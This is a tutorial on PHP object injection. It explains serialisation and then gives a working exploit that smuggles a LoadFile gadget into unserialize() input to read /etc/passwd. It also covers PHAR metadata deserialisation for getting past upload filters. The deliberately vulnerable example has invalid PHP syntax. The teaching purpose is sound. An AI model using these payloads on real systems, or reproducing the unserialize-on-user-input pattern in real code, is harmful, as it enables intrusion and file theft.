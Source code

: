 # Introduction
PHP Object Injection is a type of an insecure deserialisation attack which can result in arbitrary code execution.

### Magic Methods
[PHP Magic Methods](https://www.php.net/manual/en/language.oop5.magic.php) are a set of reserved methods for PHP objects which can be defined and which are automatically invoked in certain situations. Whilst it is possible to achieve code execution entirely by using normal methods on objects, magic methods can make the process easier.

# Serialisation
PHP has functionally which allows arbitrary objects to be turned into strings and then later retrieved as objects from those same strings. This is achieved through the `serialize()` and `unserialize()` functions. When an adversary has control over the object which gets deserialised, they can manipulate the input in such a way to make the PHP script perform arbitrary actions.

```php
<?php
class User
{
	public $name;
	public $isAdmin;
}

$user = new User();
$user->name = "cr0mll";
$user->isAdmin = False;

echo serialize($user);
?>
```

![](Resources/Images/PHP%20Object%20Injection/Object%20Serialisation.png)

The serialisation string follows the *type:data* paradigm and has the following structure:

|Type|Format|
|:---:|:----:|
|Boolean|`b:value`|
|Integer|`i:value`|
|Float|`d:value`|
|String|`s:length:"value"`|
|Array|`a:size:{values}`|
|Object|`O:name_length:"Class_name":number_of_properties:{properties}`|

# Deserialisation

Deserialisation is the inverse operation - the `unserialize()` function takes a string and converts it to a PHP object (or normal variable). When the string passed to `unserialize()` is user-controlled, an adversary can craft a custom string which will result in an object with values of the attacker's choice. When these values are later used by the PHP application, they can alter its behaviour. Take a look at the following example:

```php
<?php
class LoadFile
{
	public function __tostring()
	{
		return file_get_contents($this->filename);
	}
}

class User
{
	public $name;
	public $isAdmin;
}

$user = unserialize($_POST['user']);

if $user->isAdmin
{
	echo $user->name . " is an admin.\n"
}
else
{
	echo $user->name . " is not an admin.\n"
}
?>
```

In order to achieve arbitrary code execution, object injection relies on [PHP Gadgets](https://github.com/ambionics/phpggc) - pieces of code (typically classes) that the PHP script has access to. Usually, PHP code runs in some sort of a framework - when this is true, it is rather easy to find gadgets. Here, however, we do not have that luxury.

The `User` class is only a storage container - it has no functionality. On the other hand, the `LoadFile` class *can* do some stuff. It has the `__tostring` magic method defined and it returns the contents of the file with the provided filename. 

We can manipulate the `user` object. Therefore, it is possible to set its `name` to an object - namely a `LoadFile` object with the file name set to anything we like. When the server receives this malicious `user` with an embedded `LoadFile` object, it is going to attempt to turn it into a string when `echo` is called. The embedded `LoadFile` object has its `filename` set to `/etc/passwd` for example, and so `file_get_contents()` is going to read this file, return its contents as a string and echo will print them out for us. Here is the exploit code:

```php
<?php
class LoadFile
{
	public function __tostring()
	{
		return file_get_contents($this->filename);
	}
}

class User
{
	public $name;
	public $isAdmin;
}

$obj = new LoadFile();
$obj->filename = "/etc/passwd";

$user = new User();
$user->name = $obj;
$user->isAdmin = true;

echo serialize($user);
?>
```

When we run this, we get the following serialisation string for the malicious `user`:
```bash
O:4:"User":2:{s:4:"name";O:8:"LoadFile":1:{s:8:"filename";s:11:"/etc/passwd";}s:7:"isAdmin";b:1;}
```

If we send it in a post request to the server, it will retrieve `/etc/passwd` for us:

![](Resources/Images/PHP%20Object%20Injection/Object%20Injection%20Success.png)

# PHAR Files
PHAR is the PHP Archive format and can allow for object injection even when there is no direct `unserialize()` call - provided that there is a way to upload a file to the server. Phar archives require neither a specific extension nor a set of magic bytes for identification which makes them especially useful for bypassing file upload filters. 

The format of the archive is the following:
- Stub - must contain `<?php __HALT_COMPILER(); ?>`
- Manifest
- Metadata - contains the serialised data
- Contents - the archive contents
- Signature - for integrity verification

![](Resources/Images/PHP%20Object%20Injection/Phar%20Hex%20Dump.png)

You would be quick to think that you can just inject code into the stub and it will be executed, but that is not the case. Where the stub really shines is the fact that it can contain anything before the `<?php __HALT_COMPILER(); ?>` part. This means that the stub can be used to imitate other file formats.

Under the hood, PHAR stores metadata in a PHP-serialised format which needs to be deserialised when PHP uses the archive. In order for this to happen, the server needs to access the archive using the `phar://` stream wrapper. It is for this reason that a way of uploading files to it is necessary.

### Generating the Payload
If you try generating a phar file using PHP, you will likely run into the following error:

![](Resources/Images/PHP%20Object%20Injection/Phar%20Generation%20Error.png)

In this case, you will need to set `phar.readonly = Off` in your `/etc/php/<version>/cli/php.ini` file (this is not required on the server, only on your machine). Afterwards, you can use the following code to generate the phar file:

```php
<?php
$phar = new Phar("archive.phar"); # a .phar extension is required here but not when the archive is accessed using phar://
$phar->startBuffering();

$prefix = ...; # The data used for imitating another file format
$phar->setStub($prefix . "<?php __HALT_COMPILER(); ?>");

$payload = ...; # Object injection payload
$phar->setMetadata(serialize($payload));

$phar->addFromString("test.txt", "test"); # Optional
$phar->stopBuffering();
?>
```

The extension of the file can then be changed to anything. Subsequently, the file will need to be uploaded to the server. Once it is there, a way to make the server access `phar://<filename>` is required.

Additionally, there are a few caveats which need to be taken into account. The payload inside the object injection chain may only use the `__wakeup()` and `__destruct()` magic methods. Moreover, any file paths inside it must be absolute because phar files deal with context in a weird way when they are loaded.

